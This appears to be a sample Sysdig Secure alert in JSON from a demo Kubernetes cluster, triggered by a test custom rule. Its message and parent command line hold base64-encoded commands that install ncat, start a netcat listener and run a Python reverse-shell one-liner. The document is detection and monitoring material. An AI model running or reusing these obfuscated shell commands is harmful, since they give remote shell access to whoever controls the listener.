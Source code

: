```json
    "message": "Custom rule. The shell-scripting with image docker.io/library/python by parent bash under user root (proc.name=sh proc.exepath-custom=/usr/bin/dash proc.pname=bash gparent=runc ggparent=containerd-shim gggparent=systemd image=docker.io/library/python user.uid=0 proc.cmdline=sh proc.pcmdline=bash -c echo IyEvYmluL2Jhc2gKYXB0IHVwZGF0ZSAteTsgYXB0IGluc3RhbGwgLXkgbmNhdApuYyAtbHYgMTMzNyAmCg== | base64 -d | sh; echo cHl0aG9uMyAtYyAnaW1wb3J0IG9zLHB0eSxzb2NrZXQ7cz1zb2NrZXQuc29ja2V0KCk7cy5jb25uZWN0KCgiMC4wLjAuMCIsMTMzNykpO1tvcy5kdXAyKHMuZmlsZW5vKCksZilmb3IgZiBpbigwLDEsMildO3B0eS5zcGF3bihbInNoIiwgIi1jIiwgInNsZWVwIDU7bHMgLWE7IGV4aXQgMCJdKScK | base64 -d | sh user.name=root user.loginuid=-1 proc.args= container.name=shell-scripting evt.type=execve evt.res=SUCCESS proc.pid=1372469 proc.cwd=/ proc.ppid=1372453 proc.sid=1 proc.exepath=/usr/bin/dash user.loginname=<NA> group.gid=0 group.name=root proc.pid.ts=1743822001115100312 proc.ppid.ts=1743822000952432134 proc.hash.sha256=f5adb8bf0100ed0f8c7782ca5f92814e9229525a4b4e0d401cf3bea09ac960a6)",
    "observer": {
        "product": "Sysdig Secure",
        "vendor": "Sysdig"
    },
    "orchestrator": {
        "cluster": {
            "name": "gke-alliances-demo-6"
        },
        "namespace": "default",
        "resource": {
            "name": "shell-scripting-12345678-123ab",
            "parent": {
                "type": "cronjob"
            }
        }
    },
    "process": {
        "command_line": "sh",
        "executable": "/usr/bin/dash",
        "hash": {
            "sha256": "f5adb8bf0100ed0f8c7782ca5f92814e9229525a4b4e0d401cf3bea09ac960a6"
        },
        "name": "sh",
        "parent": {
            "command_line": "bash -c echo IyEvYmluL2Jhc2gKYXB0IHVwZGF0ZSAteTsgYXB0IGluc3RhbGwgLXkgbmNhdApuYyAtbHYgMTMzNyAmCg== | base64 -d | sh; echo cHl0aG9uMyAtYyAnaW1wb3J0IG9zLHB0eSxzb2NrZXQ7cz1zb2NrZXQuc29ja2V0KCk7cy5jb25uZWN0KCgiMC4wLjAuMCIsMTMzNykpO1tvcy5kdXAyKHMuZmlsZW5vKCksZilmb3IgZiBpbigwLDEsMildO3B0eS5zcGF3bihbInNoIiwgIi1jIiwgInNsZWVwIDU7bHMgLWE7IGV4aXQgMCJdKScK | base64 -d | sh",
            "name": "bash",
            "pid": 1372453,
            "start": "2025-04-05T03:00:00.952432134Z"
        },
        "pid": 1372469,
        "start": "2025-04-05T03:00:01.115100312Z",
        "working_directory": "/"
    },
    "related": {
        "hash": [
            "f5adb8bf0100ed0f8c7782ca5f92814e9229525a4b4e0d401cf3bea09ac960a6",
            "aa7b73608abcfb021247bbb4c111435234a0459298a6da610681097a54ca2c2a"
        ],
        "hosts": [
            "gke-cluster-gcp-demo-san-default-pool-11234abc-abcd"
        ],
        "user": [
            "root",
            "0"
        ]
    },
    "rule": {
        "description": "This is just a dumb policy to test custom policies",
        "name": "My test rule custom",
```